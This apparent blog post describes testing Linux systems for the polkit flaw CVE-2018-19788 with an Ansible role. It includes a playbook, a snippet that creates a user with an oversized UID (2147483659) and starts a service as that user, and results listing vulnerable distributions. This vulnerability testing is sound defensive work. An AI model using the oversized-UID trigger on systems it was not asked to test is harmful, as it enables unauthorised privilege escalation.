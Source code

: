 ```yaml
---
title: Testing CVE 2018-19788 with Ansible
---
```


# Testing CVE 2018-19788 with Ansible

So a [very simple exploit on polkit](https://access.redhat.com/security/cve/cve-2018-19788) has been found. There is not solution so far.

<!-- TODO: Change to local -->
To test if your system is vulnerable, you can run [this Ansible role](http://galaxy.ansible.com/buluma/cve_2018_19788).

A simple playbook that includes a few roles:
<!-- TODO: Change to local -->

```yaml
---
- name: test cve 2018 19788
  hosts: all
  gather_facts: no
  become: yes

  roles:
    - buluma.bootstrap
    - buluma.update
    - buluma.cve_2018_19788
```

And a piece of altered-for-readability code from the role:

```yaml
- name: create a user
  user:
    name: cve_2018_19788
    uid: 2147483659

- name: execute a systemctl command as root
  service:
    name: chronyd
    state: started
```

In my tests these were the results: (snipped, only kept the interesting part)

```text
TASK [ansible-role-cve_2018_19788 : test if user can manage service] ***********
    ok: [cve-2018-19788-debian] => {
        "changed": false, 
        "msg": "All assertions passed"
    }
    fatal: [cve-2018-19788-ubuntu-16]: FAILED! => {
        "assertion": "not execute_user.changed", 
        "changed": false, 
        "evaluated_to": false, 
        "msg": "users can manage services"
    }
    ...ignoring
    fatal: [cve-2018-19788-ubuntu-18]: FAILED! => {
        "assertion": "not execute_user.changed", 
        "changed": false, 
        "evaluated_to": false, 
        "msg": "users can manage services"
    }
    ...ignoring
    fatal: [cve-2018-19788-ubuntu-17]: FAILED! => {
        "assertion": "not execute_user.changed", 
        "changed": false, 
        "evaluated_to": false, 
        "msg": "users can manage services"
    }
    ...ignoring
    fatal: [cve-2018-19788-fedora]: FAILED! => {
        "assertion": "not execute_user.changed", 
        "changed": false, 
        "evaluated_to": false, 
        "msg": "users can manage services"
    }
    ...ignoring
    fatal: [cve-2018-19788-centos-7]: FAILED! => {
        "assertion": "not execute_user.changed", 
        "changed": false, 
        "evaluated_to": false, 
        "msg": "users can manage services"
    }
    ...ignoring
    ok: [cve-2018-19788-centos-6] => {
        "changed": false, 
        "msg": "All assertions passed"
    }
```

So for now these distributions seem vulnerable, even after an update:
- Ubuntu 16
- Ubuntu 17
- Ubuntu 18
- Fedora 28
- Fedora 29
- CentOS 7

